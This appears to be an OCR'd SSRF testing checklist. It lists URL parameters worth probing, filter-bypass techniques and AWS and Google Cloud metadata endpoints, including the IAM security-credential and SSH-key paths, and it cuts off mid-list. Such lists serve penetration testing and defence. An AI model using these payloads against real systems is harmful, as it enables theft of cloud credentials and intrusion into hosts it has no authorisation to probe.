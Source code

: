     - "path=",
    - "continue=",
    - "url=",
    - "window=",
    - "next=",
    - "data=",
    - "reference=",
    - "site=",
    - "html=",
    - "val=",
    - "validate=",
    - "domain=",
    - "callback=",
    - "return=",
    - "page=",
    - "feed=",
    - "host=",
    - "port=",
    - "to=",
    - "out=",
    - "view=",
    - "dir=",
    - "show=",
    - "navigation=",
    - "open=",
    - "file=",
    - "document=",
    - "folder=",
    - "pg=",
    - "php_path=",
    - "style=",
    - "doc=",
    - "img=",
    - "filename="
    - [ ]  Try basic localhost payloads
    - Bypassing filters
        - [ ]  Bypass using HTTPS
        - [ ]  Bypass with [::]
        - [ ]  Bypass with a domain redirection
        - [ ]  Bypass using a decimal IP location
        - [ ]  Bypass using IPv6/IPv4 Address Embedding
        - [ ]  Bypass using malformed urls
        - [ ]  Bypass using rare address(short-hand IP addresses by dropping the zeros)
        - [ ]  Bypass using enclosed alphanumerics
    - Cloud Instances
        - AWS
        - <http://instance-data>
        - <http://169.254.169.254>
        - <http://169.254.169.254/latest/user-data>
        - <http://169.254.169.254/latest/user-data/iam/security-credentials/>[ROLE NAME]
        - <http://169.254.169.254/latest/meta-data/>
        - <http://169.254.169.254/latest/meta-data/iam/security-credentials/>[ROLE NAME]
        - <http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance>
        - <http://169.254.169.254/latest/meta-data/ami-id>
        - <http://169.254.169.254/latest/meta-data/reservation-id>
        - <http://169.254.169.254/latest/meta-data/hostname>
        - <http://169.254.169.254/latest/meta-data/public-keys/>
        - <http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key>
        - <http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key>
        - <http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy>
        - <http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access>
        - <http://169.254.169.254/latest/dynamic/instance-identity/document>
        - Google Cloud
        - <http://169.254.169.254/computeMetadata/v1/>
